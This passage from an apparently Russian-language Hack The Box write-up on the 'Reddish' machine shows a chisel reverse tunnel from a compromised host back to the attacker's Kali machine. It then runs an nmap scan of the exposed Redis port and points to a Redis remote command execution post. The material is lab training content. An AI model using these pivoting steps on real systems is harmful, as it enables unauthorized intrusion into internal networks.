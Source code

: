 ### Redis

Пробросим еще один обратный туннель на Kali, который будет идти к порту `6379`.

```
root@nodered:/tmp# ./chisel client 10.10.14.19:8000 R:127.0.0.1:6379:172.19.0.2:6379 &
```

![network-map-3.png](/assets/images/htb/machines/reddish/network-map-3.png)
{:.center-image}

Сетевая карта. Часть 3: Туннель до Redis через nodered
{:.quote}

И теперь можно стучаться в гости к Redis со своей машины. К примеру, просканируем 6379-й порт с помощью Nmap — благо теперь у нас есть весь арсенал NSE для идентификации сервисов. Не забываем о флаге `-sT`, так как сырые пакеты не умеют ходить через туннели.

```
root@kali:~# nmap -n -Pn -sT -sV -sC localhost -p6379
...
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.9
...
```

Как предлагают [в этом посте](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html), проверим, нужна ли авторизация для взаимодействия с БД.
